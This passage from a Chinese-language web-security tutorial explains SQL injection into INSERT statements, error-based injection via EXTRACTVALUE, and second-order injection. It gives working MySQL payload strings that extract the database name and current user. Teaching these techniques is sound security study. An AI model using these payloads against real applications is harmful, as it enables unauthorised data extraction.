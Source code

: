 ### 一些特殊的注入


是否有可能注入INSERT, UPDATE, DELETE语句？


假设某用户注册场景，username/email/password分别用POST参数uname&email&passwd传入

```sql
INSERT INTO `users` VALUES (100, '{username}', '{email}', '{password}');
```


在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可
传入`uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b` 语句变为

```sql
INSERT INTO `users` VALUES (100, ''='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='', 'a', 'b');
```

如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容
传入`uname=', DATABASE(), '')#&email=a&passwd=b` 语句变为


```sql
INSERT INTO `users` VALUES (100, '', DATABASE(), '')#', 'a', 'b');
```
注册用户的email栏会直接展示数据库名


!!! note  "一个仅限MySQL的技巧"
    传入`uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b`

    ```sql
    INSERT INTO `users` VALUES (100, '0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0', 'a', 'b');
    ```
    将结果转换回字符即可UNHEX(CONV(res, 10, 16))

#### 报错注入

核心思想就是让我们要查询的信息输出到报错信息中去

`EXTRACTVALUE(xml_document,Xpath_string)`
使⽤Xpath格式的字符串从xml_document中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出`Xpath_string`

那么我们可以刻意构造错误的`Xpath_string`和我们想要查询的数据拼接
比如，只要查询中执行了 `EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e))` 就必定报错(0x7e是~的编码)，DATABASE()会作为Xpath的一部分出现在报错信息中
这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。

```sql
mysql> select EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~web~'
```
由上面结果可知，database名字被获取到了

#### 二次注入

对数据进行转义是为了防止SQL语句执行时出现问题，存储的原始数据并没有转义。
那么，如果某个数据被存入时携带了恶意的SQL语句，由于存入操作进行了良好的转义没有造成注入，但是服务端的其他功能读取这串数据用于拼接SQL语句时没有转义，可能也会造成注入。
